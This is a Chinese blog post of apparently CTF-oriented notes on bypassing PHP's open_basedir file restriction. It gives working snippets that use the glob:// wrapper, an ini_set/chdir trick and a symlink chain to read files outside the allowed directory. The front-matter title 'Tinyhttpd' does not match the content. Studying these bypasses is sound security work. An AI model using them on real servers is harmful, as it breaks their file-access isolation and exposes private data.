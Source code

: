 ```yaml
---
layout: post
title:  "Tinyhttpd"
date:   2019-11-30
desc: ""
keywords: ""
categories: [Web]
tags: []
icon: icon-html
---
```


# php open_basedir绕过

## open_basedir

将用户访问文件的活动范围限制在指定的区域

### 设置方法

* php.ini

  ```
  open_basedir=""
  ```

* php程序中

  ```php
  ini_set('open_basedir', '');
  ```

* .user.ini

  ```
  open_basedir=""
  ```

  

##命令执行函数

open_basedir管不了命令执行函数



## glob伪协议

查找匹配的文件路径模式，PHP5.3.0起开始有效

```
glob://
```

利用glob伪协议可以绕过open_basedir读取根目录

```php
<?php
  $a = "glob:///*";;
  if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
      echo $file."<br>";
    }
    closedir($b);
  }
?>
```



## ini_set

```php
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
```

先利用ini_set把open_basedir设为..

此时chdir('..');合法，执行后..变为上一级目录，继续chdir('..');依然合法，最终可以open_basedir设为根目录



## symlink

```php
<?php
  mkdir("a");
  chdir("a");
  mkdir("b");
  chdir("b");
  chdir("..");
  chdir("..");
  symlink("a/b/","tmplink");
  symlink("tmplink/../../flag.txt","fuck");
  unlink("tmplink");
  mkdir("tmplink");
  echo file_get_contents("127.0.0.1/fuck");
?>
```

创建a/b/然后回来，tmplink和a/b/建立符号链接

然后tmplink/../../flag.txt和fuck建立符号链接

fuck指向tmplink/../../flag.txt也就是a/b/../../flag.txt

然后unlink("tmplink");

此时，fuck的符号链接还在，在当前目录创建一个tmplink文件夹

fuck就指向tmplink/../../flag.txt，就可以拿到上一级目录的flag